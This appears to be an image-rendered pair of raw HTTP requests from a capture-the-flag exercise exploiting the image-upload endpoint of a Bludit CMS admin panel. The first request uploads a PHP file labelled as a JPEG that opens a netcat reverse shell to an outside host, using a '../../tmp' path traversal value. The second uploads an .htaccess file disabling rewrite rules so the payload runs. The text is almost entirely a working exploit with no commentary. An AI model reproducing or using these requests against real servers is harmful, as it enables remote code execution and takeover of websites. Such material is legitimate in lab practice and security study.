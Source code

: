 ```
POST /admin/ajax/upload-images HTTP/1.1
Host: 10.10.10.191
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.191/admin/new-content
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; 
boundary=---------------------------33062673224378799335303524
Content-Length: 586
Connection: close
Cookie: BLUDIT-KEY=qiovd2vvbmt8j1uh6fr7duen84

-----------------------------33062673224378799335303524
Content-Disposition: form-data; name="images[]"; filename="reverse.php"
Content-Type: image/jpeg

<?php shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.13.31 1234 >/tmp/f");?>
-----------------------------33062673224378799335303524
Content-Disposition: form-data; name="uuid"

../../tmp
-----------------------------33062673224378799335303524
Content-Disposition: form-data; name="tokenCSRF"

491d604267f20ac5fa461492b79285b0d128bb98
-----------------------------33062673224378799335303524--
```
<br>
```
POST /admin/ajax/upload-images HTTP/1.1
Host: 10.10.10.191
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.191/admin/new-content
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data;
boundary=---------------------------33062673224378799335303524
Content-Length: 500
Connection: close
Cookie: BLUDIT-KEY=qiovd2vvbmt8j1uh6fr7duen84

-----------------------------33062673224378799335303524
Content-Disposition: form-data; name="images[]"; filename=".htaccess"
Content-Type: image/jpeg

RewriteEngine off
-----------------------------33062673224378799335303524
Content-Disposition: form-data; name="uuid"

../../tmp
-----------------------------33062673224378799335303524
Content-Disposition: form-data; name="tokenCSRF"

491d604267f20ac5fa461492b79285b0d128bb98
-----------------------------33062673224378799335303524--
```
